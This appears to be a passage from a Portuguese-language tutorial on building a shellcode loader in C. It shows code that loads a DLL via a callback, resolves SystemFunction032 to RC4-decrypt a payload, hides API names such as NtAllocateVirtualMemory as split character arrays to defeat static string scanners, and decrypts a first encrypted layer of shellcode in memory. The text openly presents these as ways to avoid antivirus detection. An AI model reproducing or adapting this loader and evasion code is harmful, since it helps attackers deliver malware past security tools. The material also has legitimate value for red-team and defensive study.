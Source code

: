 ```c

	HMODULE hModule = LoadLibraryViaCallback(a_dll_name);
	if (hModule) {
		printf("[+] %s carregada via callback: %p\n", a_dll_name, hModule);
	}
	else {
		printf("[-] Falha ao carregar %s via callback.\n", a_dll_name);
		return FALSE;
	}

	fnSystemFunction032 SystemFunction032 = (fnSystemFunction032)GetProcAddress(hModule, NotSysFunc32);
	if (!SystemFunction032) {
		return FALSE;
	}

	STATUS = SystemFunction032(&Img, &Key);
	if (STATUS != 0x0) {
		return FALSE;
	}
	return TRUE;
}
```
## Ofuscação de Strings básico

Para evitar detecção por assinaturas de strings, implementamos:

1. **Strings "Fragmentadas"**:
```c
char NotNtAllocateVirtualMemoryName[] = { 
    'N', 't', 'A', 'l', 'l', 'o', 'c', 'a', 't', 'e', 
    'V', 'i', 'r', 't', 'u', 'a', 'l', 'M', 'e', 'm', 'o', 'r', 'y', 0 
};
```

> [!info] Dica!
> Esta técnica "ajuda" a evitar detecção por scanners de strings estáticas, mas não é infalível! ainda mais contra uma análise dinâmica. 

## Mecanismo de Descriptografia RC4 básico

O shellcode é descriptografado usando RC4 básico para evitar detecção estática. O processo de descriptografia envolve:

1. **Primeira Camada de Descriptografia**:
```c
    DWORD dwKeySize = sizeof(KeyOuter);
    if (!RC4DEC(KeyOuter, shellcodeMemory, dwKeySize, (DWORD)bytesWritten)) {
        printf("[-] Error decrypting the first layer\n");
        return;
    }
```
